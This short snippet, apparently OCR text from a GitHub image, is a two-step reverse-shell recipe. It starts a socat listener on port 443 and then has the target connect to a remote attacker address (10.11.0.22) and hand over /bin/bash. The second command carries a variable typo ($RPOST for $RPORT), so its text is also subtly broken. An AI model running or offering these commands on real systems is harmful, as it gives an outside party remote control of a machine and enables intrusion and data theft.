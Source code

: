 # 1) spawn listener for remote shell
```sh
LPORT=443
socat -d -d TCP4-LISTEN:$LPORT STDOUT
```

# 2) send bash to remote attacker
```sh
RHOST=10.11.0.22
RPORT=443
socat TCP4:$RHOST:$RPOST EXEC:/bin/bash
```
